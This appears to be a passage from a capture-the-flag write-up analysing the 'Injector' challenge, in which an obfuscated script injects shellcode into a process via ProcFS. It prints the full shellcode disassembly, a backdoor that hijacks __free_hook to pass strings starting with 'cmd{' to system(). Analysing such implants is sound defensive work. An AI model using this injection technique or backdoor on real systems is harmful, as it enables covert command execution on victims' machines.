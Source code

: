 Flag: `CS{if_computers_could_think_would_they_like_spaces?}`

### Injector

Here we are given an image of a machine and an address where the same machine is running. In the temp directory we find the file "/tmp/.hax/injector.sh". The file is an obfuscated shell script which uses ProcFS to resolve a few symbols, insert the resulting addresses into a piece of shellcode and then injects the shellcode into memory. The disassembly of the shellcode looks like this:

```asm
   0:   48 b8 41 41 41 41 41    movabs rax, 0x4141414141414141 # __free_hook
   7:   41 41 41 
   a:   41 55                   push   r13
   c:   49 bd 43 43 43 43 43    movabs r13, 0x4343434343434343 # free
  13:   43 43 43 
  16:   41 54                   push   r12
  18:   49 89 fc                mov    r12, rdi
  1b:   55                      push   rbp
  1c:   53                      push   rbx
  1d:   4c 89 e3                mov    rbx, r12
  20:   52                      push   rdx
  21:   ff d0                   call   rax
  23:   48 89 c5                mov    rbp, rax
  26:   48 b8 44 44 44 44 44    movabs rax, 0x4444444444444444 # malloc_usable_size
  2d:   44 44 44 
  30:   48 c7 00 00 00 00 00    mov    QWORD PTR [rax], 0x0
  37:   48 83 fd 05             cmp    rbp, 0x5
  3b:   76 61                   jbe    0x9e
  3d:   80 3b 63                cmp    BYTE PTR [rbx], 0x63
  40:   75 54                   jne    0x96
  42:   80 7b 01 6d             cmp    BYTE PTR [rbx+0x1], 0x6d
  46:   75 4e                   jne    0x96
  48:   80 7b 02 64             cmp    BYTE PTR [rbx+0x2], 0x64
  4c:   75 48                   jne    0x96
  4e:   80 7b 03 7b             cmp    BYTE PTR [rbx+0x3], 0x7b
  52:   75 42                   jne    0x96
  54:   c6 03 00                mov    BYTE PTR [rbx], 0x0
  57:   48 8d 7b 04             lea    rdi, [rbx+0x4]
  5b:   48 8d 55 fc             lea    rdx, [rbp-0x4]
  5f:   48 89 f8                mov    rax, rdi
  62:   8a 08                   mov    cl, BYTE PTR [rax]
  64:   48 89 c3                mov    rbx, rax
  67:   48 89 d5                mov    rbp, rdx
  6a:   48 8d 40 01             lea    rax, [rax+0x1]
  6e:   48 8d 52 ff             lea    rdx, [rdx-0x1]
  72:   8d 71 e0                lea    esi, [rcx-0x20]
  75:   40 80 fe 5e             cmp    sil, 0x5e
  79:   77 1b                   ja     0x96
  7b:   80 f9 7d                cmp    cl, 0x7d
  7e:   75 08                   jne    0x88
  80:   c6 03 00                mov    BYTE PTR [rbx], 0x0
  83:   41 ff d5                call   r13
  86:   eb 0e                   jmp    0x96
  88:   48 83 fa 01             cmp    rdx, 0x1
  8c:   75 d4                   jne    0x62
  8e:   bd 01 00 00 00          mov    ebp, 0x1
  93:   48 89 c3                mov    rbx, rax
  96:   48 ff c3                inc    rbx
  99:   48 ff cd                dec    rbp
  9c:   eb 99                   jmp    0x37
  9e:   48 b8 42 42 42 42 42    movabs rax, 0x4242424242424242 # system
  a5:   42 42 42 
  a8:   4c 89 e7                mov    rdi, r12
  ab:   ff d0                   call   rax
```
